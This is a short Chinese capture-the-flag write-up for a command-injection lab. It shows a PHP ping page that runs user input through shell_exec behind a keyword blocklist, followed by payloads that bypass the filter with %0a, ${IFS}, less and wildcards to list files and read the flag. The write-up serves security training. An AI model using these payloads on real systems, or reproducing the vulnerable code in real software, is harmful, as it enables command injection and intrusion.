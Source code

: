 ```php
<html>                                                                               
     <body>
         <form action="" method="get">
            <input type="text" name='ip' />
            <input type="submit" name="submit" value="提交">
<?php
$res = FALSE;
if (isset($_GET['submit']) || isset($_GET['ip'])){
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)){
        $cmd = shell_exec( 'ping  -c 4 ' . $ip );
        echo $cmd;
    }
}
?>
        </form>
    </body>
</html>
```
- 这题为组合拳
  - 本题过滤了|，&，；，空格，cat，flag，ctfhub
  - 综合换行符：
    - ${IFS} --> 空格
    - %0a(换行) --> ;
    - less --> cat
  - 本题需要在url中提交才行，因为在输入框中提交会再进行url编码，意思就不是我们想要的了
  - payload:
    -  127.0.0.1%0als 看看目录
    -  127.0.0.1%0als${IFS}fla* 查看目录下的flag文件名,这里因为过滤了flag，所以要用fla*
    -  127.0.0.1%0aless${IFS}fla* 获取flag
